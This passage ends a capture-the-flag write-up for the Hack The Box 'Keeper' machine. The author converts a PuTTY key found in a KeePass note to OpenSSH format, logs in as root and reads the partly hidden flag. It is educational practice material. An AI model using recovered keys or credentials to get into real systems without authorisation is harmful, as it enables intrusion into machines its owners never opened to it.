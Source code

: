 ![putty key file](/assets/images/machines/htb/keeper/keepass-putty.png)

I tried SSHing into the box as root with the saved password but that did not work, so we definitely need to be using the key file here. Since the key file is in a .ppk format, we need to switch it over to a .pem format to be able to SSH into the box. To do this, simply download putty __(apt-get install putty)__, paste all of the contents in the 'Notes' field in KeePass into a file (I named mine key.ppk), and then run the following:

```bash
puttygen key.ppk -O private-openssh -o output.pem
```

Once you have done this you should be able to SSH in as root and grab the root flag!

```bash
h0ax㉿kracken)-[~/htb/boxes/easy/keeper]
└─$ ssh -i output.pem root@keeper.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt 
d55679907........ Time to do it yourself! :)
root@keeper:~#
```

Overall very easy box, more writeups coming soon!